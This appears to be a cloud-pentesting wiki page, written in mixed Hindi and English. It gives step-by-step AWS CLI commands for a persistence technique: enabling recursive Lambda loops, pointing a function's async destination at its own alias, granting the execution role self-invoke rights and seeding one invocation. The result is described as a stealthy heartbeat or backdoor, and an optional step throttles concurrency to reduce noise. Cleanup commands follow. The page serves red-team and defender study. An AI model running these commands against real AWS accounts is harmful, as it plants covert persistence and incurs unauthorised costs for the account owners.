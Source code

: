 # AWS - Lambda Async Self-Loop Persistence via Destinations + Recursion Allow

Abuse Lambda asynchronous destinations को Recursion configuration के साथ मिलाकर एक function को बिना किसी external scheduler (no EventBridge, cron, etc.) के लगातार खुद को re-invoke करने के लिए मजबूर करें। By default, Lambda recursive loops को terminate कर देता है, लेकिन Recursion config को Allow पर सेट करने से वे फिर से सक्षम हो जाते हैं। Destinations service side पर async invokes के लिए deliver करते हैं, इसलिए एक single seed invoke एक stealthy, code-free heartbeat/backdoor channel बना देता है। Optionally reserved concurrency के साथ throttle करके noise कम रखें।

Notes
- Lambda सीधे किसी function को उसका अपना destination सेट करने की अनुमति नहीं देता। destination के रूप में एक function alias का उपयोग करें और execution role को उस alias को invoke करने की अनुमति दें।
- Minimum permissions: target function के event invoke config और Recursion config को पढ़ने/अपडेट करने की क्षमता, एक version publish करने और alias manage करने की क्षमता, और function के execution role policy को अपडेट करने की क्षमता ताकि alias पर lambda:InvokeFunction की अनुमति दी जा सके।

## Requirements
- Region: us-east-1
- Vars:
- REGION=us-east-1
- TARGET_FN=<target-lambda-name>

## Steps

1) फ़ंक्शन ARN और वर्तमान Recursion सेटिंग प्राप्त करें
```
FN_ARN=$(aws lambda get-function --function-name "$TARGET_FN" --region $REGION --query Configuration.FunctionArn --output text)
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION || true
```
2) एक version प्रकाशित करें और एक alias बनाएं/अपडेट करें (self destination के रूप में उपयोग किया जाता है)
```
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
if ! aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION >/dev/null 2>&1; then
aws lambda create-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
else
aws lambda update-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
fi
ALIAS_ARN=$(aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION --query AliasArn --output text)
```
3) function execution role को alias invoke करने की अनुमति दें (Lambda Destinations→Lambda के लिए आवश्यक)
```
# Set this to the execution role name used by the target function
ROLE_NAME=<lambda-execution-role-name>
cat > /tmp/invoke-self-policy.json <<EOF
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "lambda:InvokeFunction",
"Resource": "${ALIAS_ARN}"
}
]
}
EOF
aws iam put-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --policy-document file:///tmp/invoke-self-policy.json --region $REGION
```
4) async destination को alias पर कॉन्फ़िगर करें (self via alias) और retries अक्षम करें
```
aws lambda put-function-event-invoke-config \
--function-name "$TARGET_FN" \
--destination-config OnSuccess={Destination=$ALIAS_ARN} \
--maximum-retry-attempts 0 \
--region $REGION

# Verify
aws lambda get-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION --query DestinationConfig
```
5) पुनरावर्ती लूपों की अनुमति दें
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Allow --region $REGION
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION
```
6) एक एकल asynchronous invoke आरंभ करें
```
aws lambda invoke --function-name "$TARGET_FN" --invocation-type Event /tmp/seed.json --region $REGION >/dev/null
```
7) निरंतर invocations का निरीक्षण (उदाहरण)
```
# Recent logs (if the function logs each run)
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 20 --region $REGION --query events[].timestamp --output text
# or check CloudWatch Metrics for Invocations increasing
```
8) वैकल्पिक stealth थ्रॉटल
```
aws lambda put-function-concurrency --function-name "$TARGET_FN" --reserved-concurrent-executions 1 --region $REGION
```
## साफ़-सफाई
लूप को तोड़ें और persistence हटाएं।
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Terminate --region $REGION
aws lambda delete-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION || true
aws lambda delete-function-concurrency --function-name "$TARGET_FN" --region $REGION || true
# Optional: delete alias and remove the inline policy when finished
aws lambda delete-alias --function-name "$TARGET_FN" --name loop --region $REGION || true
ROLE_NAME=<lambda-execution-role-name>
aws iam delete-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --region $REGION || true
```
## प्रभाव
- एकल async invoke बिना किसी external scheduler के Lambda को लगातार स्वयं को फिर से कॉल करने के लिए प्रेरित करता है, जिससे छिपा हुआ persistence/heartbeat सक्षम होता है। Reserved concurrency शोर को एकल warm execution तक सीमित कर सकता है।
